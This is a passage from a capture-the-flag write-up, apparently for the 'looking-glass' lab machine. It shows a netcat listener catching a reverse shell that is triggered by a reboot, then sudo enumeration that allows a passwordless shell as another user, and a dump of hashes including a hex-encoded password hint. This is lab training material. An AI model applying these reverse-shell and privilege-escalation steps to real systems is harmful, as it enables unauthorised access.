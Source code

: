 Before we reboot the target, first run a netcat listener on port 4242 your machine using the following command:

```
nc -l -v -p 4242
```

Now, on the target machine using the `jabberwock` account, execute the reboot command.

```
sudo /sbin/reboot
```

After approx. 1-2 minutes, the target will reboot and execute our reverse shell script and connect through to our netcat listener. 


```
┌──(kali㉿kali)-[~]
└─$ nc -l -v -p 4242                                                                                                                                             1 ⨯
listening on [any] 4242 ...
10.10.74.222: inverse host lookup failed: Unknown host
connect to [10.9.0.40] from (UNKNOWN) [10.10.74.222] 39460
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
tweedledum@looking-glass:~$ 
```

### tweedledum privesc enumeration

With access to tweedledum's account, we see if we can achieve priviledge escalation or move laterally to another account. 

A check of sudo permissions:

```
tweedledum@looking-glass:~$ sudo -l
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash

```

We observe we can run a shell as tweedledee with no password. 

Exploring tweedledum's user directory we find the following file: 

```
tweedledum@looking-glass:~$ ls          
humptydumpty.txt  poem.txt
```

poem.txt is uninteresting, humptydumpty however contains the following:

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```
